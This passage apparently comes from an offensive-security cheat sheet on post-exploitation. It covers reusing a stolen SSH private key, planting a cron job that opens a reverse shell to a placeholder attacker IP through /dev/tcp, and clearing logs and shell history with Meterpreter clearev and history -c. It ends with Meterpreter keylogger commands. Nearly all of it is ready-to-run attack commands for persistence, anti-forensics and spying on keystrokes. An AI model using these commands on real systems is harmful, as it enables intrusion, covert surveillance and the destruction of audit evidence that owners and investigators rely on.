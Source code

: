 After gaining access to linux system, you can transfer SSH private key to local machine and use it to connect via SSH

***

**With cron jobs**

<pre class="language-sh"><code class="lang-sh"><strong># 1. Set up listener
</strong><strong># 2. Create a cronjob (every minute time format)
</strong>echo "* * * * * /bin/bash -c 'bash -i >&#x26; /dev/tcp/&#x3C;attacker_ip>/&#x3C;port> 0>&#x26;1'" > cron 
# 3. This will replace the user's existing crontab with the contents of 'cron'
crontab cron

# Crontab for the current user
crontab -l 
#NOTE: if the command doesn't work try with another revshell
</code></pre>

## Clearing tracks

**Windows**

```sh
# Metasploit/Meterpreter
clearev  # Clear the Application, System, and Security logs on a Windows system
```

**Linux**

```sh
history -c                          # Clear history
cat /dev/null > ~/.bash_history     # Same as above
```

## Keylogger

```sh
# With metasploit
keyscan_start          # Start keylogger
keyscan_dump print     # Captured strokes
```
